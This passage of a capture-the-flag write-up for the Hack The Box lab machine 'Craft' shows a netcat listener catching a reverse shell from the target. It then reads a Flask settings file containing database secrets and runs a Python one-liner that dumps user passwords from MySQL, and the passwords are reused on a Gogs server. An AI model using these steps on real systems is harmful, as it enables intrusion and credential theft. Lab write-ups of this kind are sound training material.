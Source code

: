 It works
```
┌─[✗]─[idomino@parrot]─[~]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.30] from api.craft.htb [10.10.10.110] 44754
/bin/sh: can't access tty; job control turned off
/opt/app #
```

## Working towards user

Seems like we are in a chroot shell (kudos: https://unix.stackexchange.com/questions/14345/how-do-i-tell-im-running-in-a-chroot)
```
/ # ls -di /
  18157 /
```

But, we do have access to settings.py now:
```
/opt/app/craft_api # cat settings.py
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Using this we can query all user passwords:
```
python -c "import pymysql; connection = pymysql.connect(host='db',user='craft',password='qLGockJ6G2J75O',db='craft',cursorclass=pymysql.cursors.DictCursor); cursor = connection.cursor(); cursor.execute('SELECT * FROM user'); print(cursor.fetchall())"
```

```
[
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'},
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'},
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
]
```
None of these work as ssh user/passes.
But gilfoyle's creds worked on https://gogs.craft.htb/,
which has an interesting project: craft-infra
